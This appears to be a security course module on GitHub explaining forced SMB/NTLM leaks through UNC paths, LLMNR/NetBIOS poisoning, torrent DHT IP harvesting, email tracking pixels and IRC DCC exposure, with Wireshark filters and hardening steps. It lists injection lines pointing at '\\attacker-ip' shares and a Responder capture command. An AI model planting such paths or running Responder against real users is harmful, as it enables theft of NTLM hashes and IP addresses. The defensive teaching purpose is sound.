



# ⚔️ Module 07: Legacy Exploits, IP Harvesting Vectors & LAN Sniffing

Beyond simple P2P voice calls, adversaries and penetration testers utilize several classic and active public attack vectors to harvest IP addresses, force outbound network handshakes, and intercept traffic. Many of these techniques still work on modern operating systems and legacy platforms (Windows 7/8/10/11, older torrent clients, IRC, and unsegmented LANs). In this module, we dissect these exploit mechanisms, examine them in Wireshark, and provide step-by-step defense configurations.

---

## 📑 Table of Contents
- [1. SMB & NetNTLM Forced Authentication (The UNC Path Leak)](#1-smb--netntlm-forced-authentication-the-unc-path-leak)
  - [1.1 How Forced SMB Handshakes Work](#11-how-forced-smb-handshakes-work)
  - [1.2 Capture in Wireshark & Responder](#12-capture-in-wireshark--responder)
  - [1.3 Defensive Mitigation](#13-defensive-mitigation)
- [2. LLMNR & NetBIOS Name Poisoning (Local Network IP & Hash Theft)](#2-llmnr--netbios-name-poisoning-local-network-ip--hash-theft)
  - [2.1 The Multicast Resolution Flaw](#21-the-multicast-resolution-flaw)
  - [2.2 Wireshark Packet Inspection](#22-wireshark-packet-inspection)
  - [2.3 Disabling LLMNR & NetBIOS](#23-disabling-llmnr--netbios)
- [3. BitTorrent Swarm Scraping & DHT Crawling](#3-bittorrent-swarm-scraping--dht-crawling)
  - [3.1 How Swarm IP Harvesting Operates](#31-how-swarm-ip-harvesting-operates)
  - [3.2 Defense: Network Interface Binding](#32-defense-network-interface-binding)
- [4. Email Client Header Leaks & Tracking Pixels](#4-email-client-header-leaks--tracking-pixels)
  - [4.1 `X-Originating-IP` and `Received:` Headers](#41-x-originating-ip-and-received-headers)
  - [4.2 Web Bugs / Remote Image Assets](#42-web-bugs--remote-image-assets)
- [5. Legacy IRC DCC & Direct Host Handshakes](#5-legacy-irc-dcc--direct-host-handshakes)

---

## 1. SMB & NetNTLM Forced Authentication (The UNC Path Leak)

One of the most dangerous and enduring features in Windows networking is the automatic resolution of **UNC (Universal Naming Convention) paths**.

### 1.1 How Forced SMB Handshakes Work
When Windows encounters a file path starting with `\\attacker-ip\share`, the operating system automatically:
1. Initiates a TCP connection on **Port 445 (SMB)** to `attacker-ip`.
2. Sends the logged-in user's **NetNTLMv2 authentication hash** (Username, Domain, Computer Name, Challenge/Response) during the SMB negotiation handshake.



### Common Injection Vectors:
* **HTML / Web Pages**: `` or CSS `@import '\\attacker-ip\style.css';`
* **Word / RTF Documents**: Embedded external template references or OLE objects pointing to `\\attacker-ip\doc.dotx`.
* **Windows Shortcuts (.lnk)**: An icon path pointing to `\\attacker-ip\icon.ico` triggers an immediate outbound SMB request when the folder is opened in Windows Explorer.
* **PDF Readers**: PDF action elements configured with `/URI` pointing to an SMB network share.

### 1.2 Capture in Wireshark & Responder
Adversaries listen on port 445 using tools like `Responder` or `smbserver.py`:
```bash
sudo responder -I eth0 -v
```

In Wireshark, the display filter to spot forced SMB leaks is:
```
smb2 or smb or tcp.port == 445
```
Under the `NTLMSSP_AUTH` packet, Wireshark exposes:
* Target's Public/Private IP address
* Windows Account Username
* Machine Hostname & NetBIOS Name
* 16-byte Server Challenge & 16-byte NTProofStr (NetNTLMv2 Hash)

### 1.3 Defensive Mitigation

> [!IMPORTANT]
> **To Prevent Outbound SMB Leaks**:
> 1. **Block Outbound Port 445**: At your router / firewall level, block all outbound traffic on **TCP Port 445** and **TCP Port 139** to the public internet.
> 2. **Disable Outbound NTLM in Windows 11 / 10**:
>    * Open `gpedit.msc` -> **Computer Configuration** -> **Windows Settings** -> **Security Settings** -> **Local Policies** -> **Security Options**.
>    * Set **"Network security: Restrict NTLM: Outgoing NTLM traffic to remote servers"** to **Deny all**.

---

## 2. LLMNR & NetBIOS Name Poisoning (Local Network IP & Hash Theft)

On local networks (public Wi-Fi, college dorms, corporate offices), Windows machines try to resolve unknown hostnames using multicast broadcast protocols if DNS fails.

### 2.1 The Multicast Resolution Flaw
When a user accidentally types a typo like `\\fileserver1\` instead of `\\fileserver\`:
1. The machine sends a DNS query. DNS returns `NXDOMAIN` (not found).
2. The machine falls back to broadcasting **LLMNR (UDP Port 5355)** and **NetBIOS-NS (UDP Port 137)** packets across the entire local network: *"Who is fileserver1?"*
3. An attacker running `Responder` answers immediately: *"I am fileserver1! Connect to me!"*
4. The victim sends its NetNTLMv2 hash directly to the attacker.



### 2.2 Wireshark Packet Inspection

| Wireshark Filter | Protocol Captured | Threat Vector |
| :--- | :--- | :--- |
| `llmnr` | Link-Local Multicast Name Resolution (UDP 5355) | Captures unauthenticated broadcast lookups |
| `nbns` | NetBIOS Name Service (UDP 137) | Legacy Windows network discovery queries |
| `mdns` | Multicast DNS (UDP 5353) | Apple / Linux local network service announcements |

### 2.3 Disabling LLMNR & NetBIOS

> [!IMPORTANT]
> **To Disable LLMNR**:
> 1. Open `gpedit.msc` -> **Computer Configuration** -> **Administrative Templates** -> **Network** -> **DNS Client**.
> 2. Double-click **"Turn off multicast name resolution"** -> Set to **Enabled**.
>
> **To Disable NetBIOS over TCP/IP**:
> 1. Open **Network Connections** (`ncpa.cpl`) -> Right-click Adapter -> **Properties**.
> 2. Select **Internet Protocol Version 4 (TCP/IPv4)** -> **Properties** -> **Advanced** -> **WINS** tab.
> 3. Select **"Disable NetBIOS over TCP/IP"**.

---

## 3. BitTorrent Swarm Scraping & DHT Crawling

The BitTorrent protocol is fundamentally open by design. To participate in a download, your client **must advertise its public IP address and port** to the swarm tracker and the Distributed Hash Table (DHT).

### 3.1 How Swarm IP Harvesting Operates
1. **Tracker Scrapes**: Trackers maintain public lists of all IP:Port tuples downloading a given `info_hash`.
2. **Kademlia DHT Crawlers**: Companies (and automated intelligence scrapers like *IKnowWhatYouDownload*) crawl the DHT network using automated nodes. They query `get_peers` on popular torrent hashes 24/7, continuously logging every connected public IP address into searchable public databases.



### 3.2 Defense: Network Interface Binding
Simply running a VPN application is **not enough**—if the VPN drops for 100 milliseconds, your torrent client can silently fall back to your physical Wi-Fi interface and leak your real public IP.

> [!TIP]
> **Mandatory Torrent Hardening (qBittorrent)**:
> 1. Open qBittorrent -> **Tools** -> **Options** -> **Advanced**.
> 2. Under **Network Interface**, select your specific VPN adapter (e.g., `mullvad-wg0` or `WireGuard Tunnel`), NOT "Any Interface".
> 3. Under **Optional IP address to bind to**, select the VPN's assigned tunnel IP.
> * **Result**: If the VPN disconnects, qBittorrent has 0% ability to send packets over your physical NIC. Traffic drops instantly to zero.

---

## 4. Email Client Header Leaks & Tracking Pixels

### 4.1 `X-Originating-IP` and `Received:` Headers
In legacy email clients and misconfigured mail transfer agents (MTAs):
* When you send an email from a desktop client (e.g., Thunderbird, older Outlook), the client includes a `Received: from [Your_Public_IP]` or `X-Originating-IP: [Your_Public_IP]` header in the raw email source.
* **Modern Defense**: Modern webmail providers (ProtonMail, Gmail) strip client IP headers and replace them with their own server IPs. When using desktop clients, connect through a VPN or Tor-routed SMTP.

### 4.2 Web Bugs / Remote Image Assets
* Marketing trackers and threat actors embed 1x1 invisible GIF pixels in HTML emails:
  ```html
  
  ```
* When your email client renders HTML images, it performs a DNS lookup and HTTP GET request, leaking your public IP, OS, and timestamp.
* **Defense**: Set your email client to **"Block remote content / Do not load remote images by default"**.

---

## 5. Legacy IRC DCC & Direct Host Handshakes

In classic IRC (Internet Relay Chat) protocols:
* **DCC (Direct Client-to-Client)** CHAT or SEND bypasses the central IRC server to establish a direct TCP connection on high ephemeral ports (e.g., `1024-5000`), immediately exposing your public IP to the other user.
* **CTCP PING / VERSION**: Unhardened clients automatically reply to CTCP queries with host and client details.
* **Defense**:
  * Use a **BNC (Bouncer)** hosted on a remote VPS so the IRC server and users only see the VPS IP.
  * Enable **DCC Server / Passive DCC** to avoid opening direct inbound listening ports.

---

## 🔒 Summary Vulnerability & Exploit Defense Matrix

| Exploit Vector | Affected Systems | Primary Mechanism | Wireshark Display Filter | Defense Hardening |
| :--- | :--- | :--- | :--- | :--- |
| **Forced SMB Leaks** | Windows 7 / 8 / 10 / 11 | Outbound UNC Path (`\\ip\share`) forces NTLMv2 handshake | `smb2 or tcp.port == 445` | Block TCP 445 outbound; Restrict NTLM via GPO |
| **LLMNR / NetBIOS** | Windows on Local LAN | Multicast broadcast spoofing via Responder | `llmnr or nbns` | Disable Multicast Name Resolution in GPO; Disable NetBIOS |
| **Torrent DHT Crawl** | BitTorrent clients | Public DHT announcement of peer IPs | `bittorrent or bt-dht` | Bind torrent client strictly to VPN network adapter |
| **Email Web Bugs** | Desktop Email Clients | HTML `` remote asset fetch | `http or tls.handshake` | Disable automatic remote image rendering |
| **IRC DCC Streams** | Legacy IRC Clients | Direct TCP connection handshake | `irc or tcp.port == 6667` | Use remote BNC bouncers; Block direct DCC connections |

---

<div align="center">
  <sub>Published and maintained by <a href="https://github.com/DaddyZyn"><b>DaddyZyn (DRAXO.dev)</b></a></sub>
</div>
